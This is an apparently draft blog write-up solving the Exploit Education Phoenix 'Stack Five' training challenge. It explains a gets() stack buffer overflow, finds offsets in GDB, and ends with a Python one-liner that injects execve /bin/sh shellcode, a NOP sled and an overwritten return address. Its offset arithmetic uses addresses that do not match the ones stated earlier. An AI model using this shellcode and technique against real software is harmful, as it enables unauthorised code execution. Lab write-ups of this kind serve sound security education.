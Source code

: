 ```yaml
---
title: "Exploit Education Phoenix : Stack Five"
date: 2023-07-18T18:54:41+02:00
draft: true
tags: [Exploit Development, Reverse Engineering, Exploit Education]
summary: "Writeup on the sixth Phoenix challenge on the Exploit Education website. In this article, we will solve the Stack-Five challenge."
series: ["Exploit Education Phoenix"]
series_order: 6
---
```


{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
Before you look at the solution to the challenges, I invite you to try it for yourself. You can find all the challenges [here](https://exploit.education/phoenix/).
{{< /alert >}}

## Overview of the challenge

The aim of the Phoenix challenges is to analyse the source code of an executable in order to find and exploit a vulnerability. This first series of challenges concerns the stack. 

The first thing to do is to analyse the executable's source code. Looking for a vulnerability to exploit.

```c
char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

First of all, we notice that unlike the other challenges, this one no longer has a structure. What's more, the `complete_level` function that we need to call to complete the challenge is no longer present. As with the previous challenge, the aim of this challenge is to introduce us to the stack overflow technique: [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP). However, this time instead of executing the `complete_level` function we have to execute shellcode to open a shell.

The next thing we notice is the use of the `gets` function. When we look at the documentation for the function using the command: `man gets`, it explains how the function works. The `gets` function retrieves a string of characters from the standard input (`stdin`), each character is written to a buffer until the function detects an `EOF` or a line feed. Finally, when one of these characters is detected, it is replaced by a `\0` to end the string.

The documentation provides us with new information: this function should no longer be used, as it is sensitive to buffer overflow attacks. The function does not know how many characters it will write to the buffer and cannot be used to limit the number of characters copied. If the number of input characters is greater than the size of the buffer, the `gets` function will continue to write to the next memory location.

Now that we've identified the sensitive parts of the source code, all we have to do is abuse the vulnerability to succeed in the challenge.

## Exploiting the vulnerability

To succeed in this challenge, we need to exploit a buffer overflow vulnerability. This will allow us to change the value of the return address, which will allow us to execute shellcode to open a new shell. To exploit the ROP, we need several parameters that we will use when exploiting the buffer overflow:

* Address of buffer vulnerable to buffer overflow
* Address of the memory location containing the return address
* A x86_64 shellcode that allow us to open a new shell.

Using the buffer address and the memory location containing the return address, we can calculate an offset that will tell us how big our malicious character string should be. Next, we add the address of the start of the buffer to our string of characters in order to rewrite the value of the return address. The shellcode in the buffer will be executed and open the shell.

To find all these parameters, we'll use `GDB`.

### Offset calculation

To find the address of the buffer, it is possible to fill the buffer and inspect the stack to find the address. To inspect the stack at the right time, we can place a breakpoint just after the `gets` function is called in the `start_level` function.

```console
$ gdb stack-five
$ disass start_level
$ b *0x00000000004005a1
$ run < <(python -c "print 'A'*100")
$ x/100x $rsp
```

Thanks to the stack inspection, we now know the buffer address: `0x7FFFFFFFE5E0`. In the stack we can also find the address containing the return address. To do this, we disassemble the `main` function, which calls the `start_level` function. Then we retrieve the address of the instruction just after the `start_level` function is called, since this is the address to which the CPU will return after the `ret` instruction in the `start_level` function.

```console
$ gdb stack-five
$ disass main
```

We now know that the address of the memory location containing the return address is: `0x7FFFFFFFE668`, since the instruction address is `0x00000000004005c7` and we find this value in the stack.

We can now calculate the offset between the start of the buffer and the location of the return address: `0x7FFFFFFFE648 - 0x7FFFFFFFE5F0 = 0x88 = 136`.

### Constructing the malicious string

We now have all we need to exploit the vulnerability. We can create our malicious string by filling our buffer with a shellcode of 57 bytes that open a shell, then 79 `NOP` to reach the return address and finally adding the address of the buffer.

{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
I didn't create the shellcode myself, you can find it [here](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html). So credit goes to them for this shellcode..
{{< /alert >}}

To make it easier to create the string, we can use Python.

```console 
python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xE0\xE5\xFF\xFF\xFF\x7F'" | ./stack-five
```

Finally, we can see that we've opened a new shell, so we've succeeded in our challenge.